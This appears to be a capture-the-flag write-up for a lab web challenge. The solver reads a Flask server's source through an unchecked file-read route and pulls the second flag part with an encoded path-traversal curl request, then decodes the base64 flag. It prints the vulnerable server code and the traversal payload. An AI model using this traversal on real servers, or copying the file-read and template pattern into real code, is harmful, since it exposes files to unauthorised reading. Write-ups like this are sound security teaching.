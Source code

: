 # Web Hacking 04
```bash
IP=192.168.10.5
PORT=5000
```

> Warning, the Flag is split into 2 parts, make sure to find them and combine both parts before submitting.

## browser
open `http://$IP:$PORT`, server header `Server: gunicorn`, that is a python server.
`/` redirects as 302 to `/index.template`
Source code shows comment `<!-- page: index.template, src: /code/server.py -->`.

## gobuster
gobuster wont work because the server isn't sending correct status codes.

## curl
based on comment, try `http://$IP:$PORT/code/server.py` and `http://$IP:$PORT/server.py`, latter shows code.

```py
$ curl http://$IP:$PORT/server.py

import flask, sys, os
import requests

app = flask.Flask(__name__)
counter = 12345672


@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);

@app.route('/')
def home():
    return flask.redirect('/index.template');

if __name__ == '__main__':
    flag1 = 'FLAG PART 1: Y3liZXJjdGZke2Qwbjdf'
    with open('/flag') as f:
            flag2 = f.read()

    print("Ready set go!")
    sys.stdout.flush()
    app.run(host="0.0.0.0")

<!-- page: server.py, src: /code/server.py -->
```

`FLAG PART 1: Y3liZXJjdGZke2Qwbjdf`


## path traversal
https://security.snyk.io/vuln/SNYK-PYTHON-FLASKCORS-608972

`%2e` is urlencoded `.`

```bash
$ curl http://$IP:$PORT/%2e%2e/flag

FLAG PART 2: NXBsMTdfbTNfNHA0cjd9

<!-- page: ../flag, src: /code/server.py --> 
```

```bash
$ echo "Y3liZXJjdGZke2QwbjdfNXBsMTdfbTNfNHA0cjd9" | base64 -d                                                 
cyberctfd{d0n7_5pl17_m3_4p4r7}
```

`cyberctfd{d0n7_5pl17_m3_4p4r7}`